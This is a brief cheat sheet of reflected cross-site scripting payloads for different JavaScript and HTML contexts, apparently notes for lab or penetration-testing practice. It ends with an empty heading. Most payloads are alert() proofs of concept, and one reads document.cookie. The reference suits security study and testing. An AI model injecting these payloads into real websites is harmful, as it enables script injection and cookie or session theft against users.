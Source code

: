 ### Reflected XSS in a JavaScript String with Angle Brackets HTML-Encoded
Inject:
```html
<xss123>'"
```
Payloads to break out of the JavaScript context:
```javascript
xss';alert(1);'xss
```
```javascript
someString'-alert(1)-'someString
```
```javascript
someString"-alert(1)-"someString
```
```javascript
';alert(document.cookie);'
```

---

## Reflected XSS Into a JavaScript String Where Single Quote Escaped With Backslash
Close the script tag and inject:
```javascript
</script><img src=x onerror=alert(1337)>
```

---

## Reflected XSS with Angle Brackets and Double Quotes HTML-Encoded and Single Quotes Escaped
Payloads:
```javascript
\';alert(1337)//
```
```javascript
\'-alert(1)//
```

---

## Reflected XSS Into a Backticks Template Literal with Unicode Escaped

If the application use unicode escape and use backticks, you can use this payload.
```javascript
${alert(1337)}
```

---

## Tags and Attribute Block Bypass
